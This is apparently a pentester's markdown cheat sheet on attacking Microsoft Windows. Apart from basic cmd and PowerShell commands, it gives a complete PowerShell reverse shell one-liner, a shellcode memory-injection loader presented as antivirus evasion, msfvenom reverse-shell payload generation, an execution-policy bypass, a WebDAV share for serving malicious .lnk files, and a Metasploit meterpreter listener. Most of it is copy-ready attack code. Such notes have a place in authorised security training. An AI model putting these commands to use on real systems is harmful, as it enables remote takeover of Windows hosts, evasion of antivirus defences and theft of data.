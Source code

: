 # Microsoft Windows attacks

## Reminders

### Cmd

```
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
find /c /v "" file.txt
net user
net localgroup
```

### Powershell

#### Basics

Get help:
```
Get-Help somecommand
Get-Command -ParameterName ComputerName
Get-Command -name "*name*"
```

Find file:
```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
```

Base64: https://stackoverflow.com/questions/15414678/how-to-decode-a-base64-string
```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("somebase64string"))
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("sometext"))
```

#### Powershell reverse shell one-liner

- source: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
- command:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- base64: https://github.com/darkoperator/powershell_scripts/blob/master/README


## WebDAV shares

To share malicious Library or .lnk files:
```
kali$ pip install wsgidav # or with apt-get
kali$ mkdir mywebdav # share visible on Windows Explorer
kali$ /path/to/wsgidav --host=0.0.0.0 --auth=anonymous --port $AttackerPort --root ./mywebdav
```

## AV evasion

### Powershell memory injection

Memory injection types:
- https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process
- https://blog.f-secure.com/memory-injection-like-a-boss/

#### Script

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = someshellcode;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Shell code:
```
kali$ msfvenom -p windows/shell_reverse_tcp LHOST=$AttackerIp LPORT=$AttackerPort -f powershell -v sc
```

#### Execution policy

See ByPass: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.3

##### At system level

```
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

##### At script level

```
PS> powershell -ep bypass ./somescript.ps1
```

### Shellter

Project: https://www.shellterproject.com/

Metasploit listener:
```
kali$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $AttackerIP;set LPORT $AttackerPort;run;"
```



